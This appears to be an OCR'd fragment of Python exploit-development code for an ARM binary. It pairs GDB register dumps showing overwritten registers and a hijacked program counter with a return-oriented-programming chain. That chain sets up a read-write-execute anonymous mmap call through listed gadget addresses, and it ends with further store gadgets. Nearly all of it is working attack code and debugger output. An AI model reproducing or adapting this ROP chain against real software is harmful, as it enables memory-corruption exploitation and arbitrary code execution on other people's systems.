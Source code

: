 ```python
r3             0x35a70             219760
r4             0x61716161          1634820449
r5             0x61726161          1634885985
r6             0x61736161          1634951521
r7             0x61746161          1635017057
r8             0x61756161          1635082593
r9             0x61766161          1635148129
r10            0x61776161          1635213665
r11            0x61786161          1635279201
r12            0x7                 7
sp             0x7efe9b38          0x7efe9b38
lr             0x3f                63
pc             0x5a5a5a5a          0x5a5a5a5a
cpsr           0x600b0110          1611333904
fpscr          0x10                16
"""
address = 0x177000
stderr = 0x00036E90
ropchain = c[:74] + p32(stderr) + p32(address) * 4 
ropchain = ropchain.ljust(94, "A")
ropchain += p32(r3popnothumb)
ropchain += p32(address) #r3 dont care
ropchain += p32(r5pop+1)
ropchain += p32(address) #r5 dont care
ropchain += p32(r14pop+1)
ropchain += p32(0x1000) #r1 size
ropchain += p32(address) #r4 dont care
ropchain += p32(r234pop+1) #pc
ropchain += p32(7) #r2 prot
ropchain += p32(address) #r3 dont care
ropchain += p32(address) #r4 dont care
ropchain += p32(r03pop+1) #pc
ropchain += p32(address) #r0 addr
ropchain += p32(0x22) #r3 flags Anonimous
ropchain += p32(mmap)
ropchain += p32(0x0) #fildes
ropchain += p32(0x0) #off
ropchain += p32(0x41414141) #pc

"""
r0             0xffffffff          4294967295
r1             0x9                 9
r2             0x76f9c6a0          1996080800
r3             0xffffffff          4294967295
r4             0x41414141          1094795585
r5             0x41414141          1094795585
r6             0x41414141          1094795585
r7             0x41414141          1094795585
r8             0x41414141          1094795585
r9             0x177000            1536000
r10            0x177000            1536000
r11            0x177000            1536000
r12            0x6                 6
sp             0x7ed1fd70          0x7ed1fd70
lr             0x76dde329          1994253097
pc             0x5a5a5a5a          0x5a5a5a5a
cpsr           0x200f0110          537854224
fpscr          0x10                16
"""

#0x000118c4 : strb r3, [r4] ; pop {r4, pc}
storer3r4 = 0x000118c4
#0x00013ad2 : str r2, [r3] ; pop {r4, pc}
```